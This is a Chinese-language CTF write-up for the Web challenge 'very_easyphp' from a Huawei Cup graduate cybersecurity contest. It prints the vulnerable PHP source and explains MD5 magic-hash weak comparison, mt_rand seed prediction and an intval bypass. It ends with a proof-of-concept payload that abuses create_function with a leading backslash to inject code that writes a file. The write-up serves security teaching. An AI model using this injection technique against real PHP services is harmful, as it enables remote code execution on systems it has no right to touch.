


# “华为杯”第三届中国研究生网络安全创新大赛 - very_easyphp

1. 题目来源：“华为杯”第三届中国研究生网络安全创新大赛
2. 题目方向：Web；知识点：MD5弱类型比较、PHP伪随机数（mt_srand种子预测）、create_function()命令执行与`\`绕过正则

## 解题思路

考察点：

- MD5弱类型比较
- 伪随机数
- create_function()命令执行与`\`绕正则

题目源码如下：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$data = parse_url($_SERVER['REQUEST_URI']);
$han = basename($data['query']);
$a = $_GET['a'];
$b = $_GET['b'];
if (!preg_match('/[a-z0-9_]/i', $han)) {

    if (is_string($a) && is_numeric($b)) {
        if ($a != $b && md5($a) == md5($b)) {
            $week1 = true;
        } else {
            echo "你行不行，细狗;<br />";
        }
    } else {

        echo "不要耍小聪明哦<br />";
    }
} else {

    echo "这些都被过滤了哦<br />";
}

if (!isset($time)) {
    $time = gmmktime();
}
$b = substr($time, 0, 7);
mt_srand($b);
echo "hint:" . (mt_rand()) . "<br />";
for ($i = 0; $i <= 100; $i++) {

    if ($i == 100) {
        $sui = mt_rand();
    } else {
        mt_rand();
    }
}

if ($_POST['c'] == $sui) {
    $d = $_POST['d'];
    if (intval('$d') < 4 && intval($d) > 10000) {
        $week2 = true;
        echo "不错哦,快去获得flag吧<br />";
    } else {
        echo "好像不符合要求哦，再想想吧<br />";
    }
} else {
    echo "再好好想一想哦<br />";
}

if ($week1 && $week2) {
    $f = $_POST['flag'];
    $e = $_POST['e'];
    if (!preg_replace('/[a-z0-9_]/isD', '', $_POST['flag'])) {
        echo "这样可不太好哦<br />";
    } else {
        $f('', $e);
    }
} else {
    echo "胖虎，你在搞什么.<br />";
}
```

先看 week1 处，这里给两个 md5 都为 0e 开头的数值即可，如下：

```php
QNKCDZO
240610708
s878926199a
s155964671a
s21587387a
```

week2 处，这里的种子是时间戳的一部分，直接到本地运行一下，得到随机数：



还有一处：

```php
if (intval('$d') < 4 && intval($d) > 10000)
```

`intval` 匹配的字符串开头若不是数字，直接返回 0。注意第一个 `intval` 的参数是一个字符串，不是变量。这里 d 随便传一个大于一万的就行。

最后看下命令执行部分：

```php
if ($week1 && $week2) {
    $f = $_POST['flag'];
    $e = $_POST['e'];
    if (!preg_replace('/[a-z0-9_]/isD', '', $_POST['flag'])) {
        echo "这样可不太好哦<br />";
    } else {
        $f('', $e);
    }
} else {
    echo "胖虎，你在搞什么.<br />";
}
```

该正则会匹配大小写字母、数字、下划线。

考虑到下面还有 `$f('', $e);`，这里 POST 传的 flag 要作为函数去执行，所以开头带一个 `\`（全局命名空间限定符），不会影响函数执行。

且调用的时候有两个参数，第一个为空，那么就用 `create_function`。

POC 如下，尝试写个文件：

```
flag=\create_function&e=return%221%22;}file_put_contents('test.txt','rce_success');/*
```

验证如下：



## Flag

原文档与截图中未给出 flag 内容（截图仅验证了 `test.txt` 写入 `rce_success`），请补充实际获取的 flag。
